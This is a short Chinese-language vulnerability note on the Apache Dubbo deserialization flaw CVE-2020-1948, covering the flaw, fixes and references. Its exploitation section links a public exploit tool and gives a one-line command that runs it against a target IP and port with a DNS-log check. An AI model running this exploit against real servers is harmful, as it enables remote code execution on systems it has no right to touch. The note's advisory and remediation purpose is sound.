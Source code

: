 ### 一 漏洞名
Apache dubbo 反序列化漏洞(CVE-2020-1948)

### 二 漏洞描述
Apache Dubbo是一种基于Java的高性能RPC框架。该项目于2011年开源，并于2018年2月进入Apache孵化器，目前已经成为了广大开发者最常使用的微服务框架之一。它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。

Dubbo 2.7.6或更低版本采用的默认反序列化方式存在代码执行漏洞，当Dubbo服务端暴露时(默认端口：20880)，攻击者可以发送未经验证的服务名或方法名的RPC请求，同时配合附加恶意的参数负载。当恶意参数被反序列化时，它将执行恶意代码。

### 三 漏洞利用
https://github.com/threedr3am/dubbo-exp

```
java -jar dubbo-exp.jar --target {ip}:{port} --fastcheck {str(dnslog)}
```

### 四 修复方式
1 升级至最新版本

2 Dubbo 协议默认采用 Hessian 作为序列化反序列化方式，该反序列化方式存在反序列化漏洞。在不影响业务的情况下，建议更换协议以及反序列化方式。  
具体更换方法可参考：
https://dubbo.apache.org/zh/docs/references/xml/dubbo-protocol/  
https://blog.csdn.net/xia296/article/details/107072502/

> 参考链接
> https://github.com/threedr3am/dubbo-exp
> https://www.cnblogs.com/JingQ/p/13329083.html
> https://paper.seebug.org/1264/
